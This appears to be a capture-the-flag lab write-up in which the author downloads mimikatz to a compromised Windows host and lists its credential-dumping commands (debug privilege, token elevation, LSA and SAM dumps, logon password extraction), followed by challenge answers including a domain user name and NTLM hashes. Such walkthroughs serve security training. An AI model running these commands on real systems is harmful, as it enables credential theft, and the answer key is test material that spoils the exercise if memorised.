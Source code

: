 # Dump It Like It's Hot and Not the soft and fluffy kind

From here it was smooth sailing to `wget` the mimikatz and run it as the admin-petersj:  
![mk1](dlih-wget-mk.png)
Then run it:  
![mk2](dlih-mk-init.png)

I used these commands as instructed:  
```mimikatz
privilege::debug
token::elevate
lsadump::lsa /patch
lsadump::sam
sekurlsa::logonPasswords
```

Follow the links to the output for each:
[DLIHlsaSAMdump](Dump-it-like-its-hot-to-not-the-soft-and-fluffy-kind/DumpDLIHlsaSAMdump)  
[DLIHsekulsa](Dump-it-like-its-hot-to-not-the-soft-and-fluffy-kind/DLIHsekulsa)  
[DLIHsekulsaLogonPasswds](Dump-it-like-its-hot-to-not-the-soft-and-fluffy-kind/DLIHsekulsaLogonPasswds)  



## Answers

What domain user was logged in?
```{toggle}
BlaireJ
```
What is the user's hash?
```{toggle}
c374ecb7c2ccac1df3a82bce4f80bb5b
```
What is the administrator's NTLM hash?
```{toggle}
a06e58d15a2585235d18598788b8147a
```